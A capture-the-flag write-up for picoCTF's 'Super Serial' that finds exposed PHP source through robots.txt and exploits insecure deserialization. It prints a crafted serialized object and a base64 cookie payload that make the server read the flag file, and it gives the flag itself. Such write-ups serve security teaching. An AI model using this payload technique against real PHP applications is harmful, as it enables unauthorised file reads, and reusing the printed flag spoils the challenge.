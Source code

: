# Super Serial

> Challenge: [Super Serial](https://play.picoctf.org/practice/challenge/180)

## Summary

**Information Leakage in Webserver Metafiles + Insecure Deserialization**
> Checking /robots.txt and gain some source file, analyzing source code and exploiting Insecure Deserialization

## Solution

Checking `/robots.txt`:

```
User-agent: *
Disallow: /admin.phps
```

Then we access to `/index.phps`, `/authentication.phps`, `/cookie.phps` and get these
sources: [index.php](index.php), [authentication.php](authentication.php), [cookie.php](cookie.php)


Focus on the end of `index.php`:
```php
class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	//...
}

```
This is the extended serial object of cookie: 
```
O:11:"permissions":2:{s:8:"username";s:4:"user";s:8:"password";s:4:"pass";}
```

And when deserializing the cookie, if it catches an exception, it will print the deserialized object in string.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

```
In `authentication.php`, we have an interesting object will show content of file in string:
```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
so I will use it to create a serialized object to put into the cookie:
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
Check `index.php`:
```php
if ($perm_res->is_guest() || $perm_res->is_admin()) {
    setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
    header("Location: authentication.php");
    die();
}
```
We see that we will put a header `Cookie: login=<base64_encodeed_serialized_obj>` in request `GET /authentication.php`:
Payload: `Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFn`

![img.png](img.png)

**Flag:**`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_66832978}`